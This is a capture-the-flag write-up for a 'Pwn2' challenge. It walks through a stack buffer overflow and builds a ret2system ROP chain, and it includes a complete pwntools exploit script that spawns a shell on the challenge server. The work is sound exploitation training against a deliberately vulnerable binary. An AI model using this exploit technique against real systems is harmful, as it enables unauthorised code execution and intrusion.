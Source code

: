 ```yaml
---
title: Pwn2
date: 2023-06-10
type: writeup
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

There is no win function this time! 

Author: NoobMaster

## Solution

Running checksec on the binary, we notice the lack of canary and PIE.

```
$ checksec pwn2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   42 Symbols	  No	0		1		pwn2
```


When we open the binary in Ghidra, we are greeted with the following main function:

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(input,0x19,stdin);
  puts("Wrong Answer! I\'ll give you another chance!\n");
  puts("Would you like a flag?");
  fgets(local_28,0x60,stdin);
  system("cat fake_flag.txt");
  return;
}
```
We notice the global variable ``input`` and local variable ``local_28``. The input is passed to two different variables. Again a buffer overflow on ``local_28``, but this time with no win function, like the descriptions says.

The idea would be maybe to write ``/bin/sh`` in the data section, through the ``input`` variable, and then use it in a ROP chain to call ``system``, which is imported in the binary already.

So let's ROP it.
```
$ ROPgadget --binary pwn2 | grep ret
0x000000000040110b : add bh, bh ; loopne 0x401175 ; nop ; ret
0x0000000000401228 : add byte ptr [rax - 0x77], cl ; ret 0x19be
0x00000000004010dc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000040117a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010de : add byte ptr [rax], al ; endbr64 ; ret
0x000000000040117b : add byte ptr [rcx], al ; pop rbp ; ret
0x000000000040110a : add dil, dil ; loopne 0x401175 ; nop ; ret
0x000000000040117c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401177 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x00000000004010e3 : cli ; ret
0x000000000040128b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004010e0 : endbr64 ; ret
0x0000000000401286 : leave ; ret
0x000000000040110d : loopne 0x401175 ; nop ; ret
0x0000000000401176 : mov byte ptr [rip + 0x2f0b], 1 ; pop rbp ; ret
0x0000000000401285 : nop ; leave ; ret
0x00000000004011fa : nop ; pop rbp ; ret
0x000000000040110f : nop ; ret
0x0000000000401178 : or ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040117d : pop rbp ; ret
0x0000000000401196 : pop rdi ; ret
0x000000000040101a : ret
0x000000000040122b : ret 0x19be
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040128d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040128c : sub rsp, 8 ; add rsp, 8 ; ret
```
We find a ``pop rdi ; ret`` which is essential for passing ``/bin/sh`` to system. So the full exploit is simply:

```py
#!/usr/bin/env python3

from pwn import *

target = remote("challs.n00bzunit3d.xyz", 61223)
#target = process("./pwn2")

target.sendline(b"/bin/sh\x00") # send /bin/sh for first input

sys_addr = p64(0x00401080) # system address
pop_rdi_gadget = p64(0x0000000000401196) # pop rdi ; ret address
ret_gadget = p64(0x000000000040101a) # ret gadget - stack needs to be 16-bytes aligned for system()
sh_addr = p64(0x00404090) # /bin/sh address (the global input variable's address)

payload = b"a" * 0x28 + ret_gadget + pop_rdi_gadget + sh_addr + sys_addr

#gdb.attach(target)
target.sendline(payload)
target.interactive()
```

Notice the ``ret`` gadget, used as a ``NOP`` to align the stack to 16 bytes, which is a necessary precondition to calling ``system()``. Failing to do so will result in a segmentation fault.

We run the exploit:
```
$ ./solve.py 
[+] Starting local process './pwn2': pid 25704
[*] Switching to interactive mode
Would you like a flag?
Wrong Answer! I'll give you another chance!

Would you like a flag?
n00bz{f4k3_fl4g}
$ whoami
sunbather
```

Easy shells.
